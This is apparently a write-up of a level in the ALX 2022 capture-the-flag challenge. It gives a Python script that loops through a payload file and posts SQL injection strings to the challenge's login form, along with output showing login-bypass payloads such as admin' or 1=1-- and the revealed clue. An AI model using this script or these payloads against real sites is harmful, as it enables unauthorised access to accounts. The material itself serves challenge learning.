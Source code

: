 For anyone interested in the `requests` version, here it is as follows:

```py
#!/usr/bin/python3

# Import a synchronous request library
import requests

# read the payloads file and store result as a list in
# the variable sql_payloads
with open('payloads-1.txt') as f:
    sql_payloads = f.readlines()

url = "http://venicodivici.co/identification.php"

# The necessary request headers for the request to succeed
headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded"
    }

def request_maker(sql_payload):
	# prepare request payload
    request_payload = f"submitted=1&username={sql_payload}&password="
    # Make a post request to sever
    resp = requests.post(url, headers = headers, data = request_payload)
    # Parse text response from server
    res = resp.text           
    # print the payload and html response
    print(f"{sql_payload} <>>> {res}")

def main():
    for sql_payload in sql_payloads:
        request_maker(sql_payload)

if __name__ == '__main__':
	main()

```

To execute the asynchronous version, you first need to install `aiohttp`, and the libraries that would improve its performance

```sh
$ sudo pip install aiohttp aiodns cchardet
```

After running `venicodivici.py`, this is the result I got:

```sh
$ python venicodivici.py
...
admin" or 1=1/*
 <>>> <center>Wrong password. Try again.<br /><img src="images/nop.png" /></center>
admin' or 1=1--
 <>>> <center>You are onto something...<br /><img src="images/injection.png" /></center>
admin'or 1=1 or ''='
 <>>> <center>Welcome, H4ck3R! Clue #3 for the last level "Are you clueless" is "baguette" (lower case)<br />Time to brag on Twitter!!          <a href="https://twitter.com/intent/tweet?ref_src=twsrc%5Etfw" class="twitter-hashtag-button"
        data-text="I have found @alx_africa #ALXchallenge2022 clue #3 (needed for the last level) \o/
THANK YOU @karoub, @guillaumesalva, @gautie_a, @julienbarbier42, @0xAuntyBetty and @FredSwaniker! This one was tough and fun! #dohardthings"
                 data-show-count="true">Tweet</a>
```